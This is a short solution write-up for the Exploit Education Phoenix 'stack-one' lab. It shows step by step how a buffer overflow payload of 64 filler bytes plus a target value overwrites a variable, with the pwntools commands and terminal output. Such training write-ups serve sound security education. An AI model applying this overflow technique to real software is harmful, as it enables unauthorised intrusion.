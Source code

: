 # Stack One Solution

[lab](https://exploit.education/phoenix/stack-zero/)  

This is very easy chall. You don't even need to read the source code to exploit this because the program prints some helpful text to help you around. You first play around with the binary a bit. You can also see that SUID bit is enabled for this binary, but we don't require that now. I created a simple payload using `python -c 'from pwn import *; print(cyclic(100))'` and sent that to binary.  

``` sh
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x61616171, we want 0x496c5962
```  

As if we decode this hex value using `python -c print(b"\x61\x61\x61\x71".decode("ascii"))`, we'll get that this is *aaaq*. Now this is printing value as an integer (from the looks of it because this is printed as a single 4 byte hex value). So, we must change the order from "aaaq" to "qaaa" to find the correct offset.Finding offset of this using `python -c 'from pwn import *; print(cyclic_find('qaaa'))'` we get 64 as offset. This means our next payload will look something like this : `64 bytes of useless data + 4 bytes of target data`.  

The program wants `0x496c5962` to be written at its target data. We create our new payload as : `python -c 'print(b"a"*64 + b"\x62\x59\x6c\x49")'` and sent it to program input. Notice that those hex characters are ascii chars, so we shouldn't have any problems with printing those.  

``` sh
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabYlI
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Solved!
